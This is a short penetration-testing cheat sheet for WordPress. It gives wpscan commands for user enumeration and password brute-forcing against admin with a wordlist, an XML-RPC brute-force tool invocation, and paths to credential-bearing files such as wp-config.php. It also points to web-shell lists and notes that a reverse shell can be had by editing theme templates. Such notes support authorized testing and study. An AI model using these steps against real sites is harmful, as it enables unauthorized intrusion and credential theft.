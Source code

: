 # Wordpress 

Checklist:
- Login page
- `robots.txt`
- `/var/www/html/wp-config.php` contain credentials
- Enumerate users with `-u` with `wpscan`

## Cheatshee

[Free 25 API requests per day](https://wpscan.com/pricing)

```bash
wpscan --url $url -e --api-token $APIKEY # -o filename
# optional - all plugins, themes, plus timthumbs
# vp,vt,tt,cb,dbe,u,m
ap at t tt dbe u m cb

wpscan --url $url --api-token $APIKEY -U admin -P /usr/share/wordlists/rockyou.txt
```


#### Scanning and Enumeration 

```bash
# Username can be guessed on WordPress since the username will generate a different error message if it doesn't exist.

# Interesting files
https://monsite.com/robots.txt
https://monsite.com/feed
https://monsite.com/readme.html
https://monsite.com/xmlrpc.php

# Configuration files
https://monsite.com/.htaccess
https://monsite.com/wp-config.php

# Directory listing
https://monsite.com/wp-includes

# XML-RPC attack (https://github.com/1N3/Wordpress-XMLRPC-Brute-Force-Exploit)
# You can bruteforce users
./wp-xml-brute http://target.com/xmlrpc.php passwords.txt username1

# If by any way you can upload files, go check /upload or /uploads for your files

# Get WPEngine's config file
/_wpeprivate/config.json
```

#### Directory  Busting 
Seclist wordlists
```
Discovery/Web-Content/URLs/urls-wordpress-3.3.1.txt
Discovery/Web-Content/CMS/wordpress.fuzz.txt
Passwords/Honeypot-Captures/wordpress-attacks-july2014.txt
```

#### Shells
Seclists
```
/usr/share/seclists/Web-Shells/WordPress
```

#### Reverse Shells

```php
# You can reverse shell by editing templates (404.php, footer.php...)
# Theme Editor use a 404 template as it won't break the site.
# Plugin Editor  then go to /wp-content/plugins/<pluginname.php>
```

#### Hashes
```bash
# Hashcat Hashmode = 400
```


## References

[haax.fr](https://cheatsheet.haax.fr/web-pentest/content-management-system-cms/wordpress/)